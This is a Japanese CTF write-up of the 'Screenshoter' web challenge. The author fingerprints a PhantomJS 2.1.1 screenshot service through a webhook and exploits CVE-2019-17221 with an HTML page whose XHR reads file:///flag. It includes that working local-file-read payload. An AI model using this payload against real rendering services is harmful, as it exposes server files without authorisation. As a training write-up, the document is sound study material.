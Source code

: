 ## [web 469] Screenshoter (43 solves)
> Turn your beautiful website into an image with our new tool!
> 
> flag is on /flag
> 
> (URL)

与えられた URL にアクセスすると、以下のような URL の入力フォームが表示されました。

![Screenshoter](../images/2020-03-23_screenshoter.png)

試しに `http://example.com` を入力してみると、この Web サイトを PNG にしたものが表示されました。今回も `/flag` にフラグがあるということで `file:///flag` を入力してみましたが、やはり `Bad URL!` と怒られてしまいました。

今度は一体どのようなツールを使って Web ページを画像化しているのでしょうか。User-Agent からなにか情報が得られないか、[Webhook.site](https://webhook.site/) で生成された URL を投げてみましょう。

> User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1

[PhantomJS](https://phantomjs.org/) が使われているようです。バージョンは最新ですが、これは 4 年前のものです。なにか脆弱性がないかググってみると、[CVE-2019-17221](https://nvd.nist.gov/vuln/detail/CVE-2019-17221) がヒットしました。どうやら XHR で `file://` URI を読み込ませることができるようです。やってみましょう。

以下のような HTML を用意します。

```html
<!doctype html>
<html lang="en">
  <head>
    <title>test</title>
    <style>body { background: white; }</style>
  </head>
  <body>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.onload = function () {
        document.body.innerText = xhr.responseText;
      };
      xhr.open('GET', 'file:///flag');
      xhr.send();
    </script>
  </body>
</html>
```
